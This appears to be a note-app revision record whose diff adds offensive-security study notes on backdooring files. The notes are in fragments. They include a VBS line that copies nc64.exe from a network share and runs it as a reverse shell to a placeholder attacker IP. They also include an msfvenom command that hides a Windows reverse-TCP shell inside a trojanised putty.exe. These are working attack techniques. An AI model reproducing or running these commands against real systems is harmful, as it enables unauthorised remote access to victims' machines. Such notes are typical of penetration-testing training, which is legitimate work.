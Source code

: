 id: 0c5df2e7548144019519307316219f40
parent_id: aa941c013c4345008700b1fcfd3a0c26
item_type: 1
item_id: f2940b64c9b54649b95237336f33db08
item_updated_time: 1657703626412
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ckdoor\\\n\\\n\"],[1,\"If the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code\\\n\\\n`CreateObject(\\\"WScript.Shell\\\").Run \\\"cmd.exe /c copy /Y \\\\\\\\10.10.28.6\\\\myshare\\\\\nc64.exe %tmp% & %tmp%\\\\\nc64.exe -e cmd.exe <attacker_ip> 1234\\\", 0, True`\\\n\\\n## Backdooring .exe Files\\\n\\\n\"],[0,\"We can i\"]],\"start1\":818,\"start2\":818,\"length1\":16,\"length2\":312},{\"diffs\":[[0,\"ecutable\"],[1,\", we can download it and then call msfvenom\\\n\\\n### For Meterpreter multi/handler shell\"],[0,\"\\\n\\\n`msfve\"]],\"start1\":1232,\"start2\":1232,\"length1\":16,\"length2\":100},{\"diffs\":[[0,\"tyX.exe`\"],[1,\"\\\n\\\n### For normal netcat reverse shell\\\n\\\n> msfvenom -a x64 --platform windows -x putty.exe -k -p windows/shell\\\\_reverse\\\\_tcp lhost=&lt;attacker_ip&gt; lport=4444 -b \\\"\\\\\\\\x00\\\" -f exe -o puttyX.exe\"]],\"start1\":1467,\"start2\":1467,\"length1\":8,\"length2\":199}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-13T09:19:19.769Z
created_time: 2022-07-13T09:19:19.769Z
type_: 13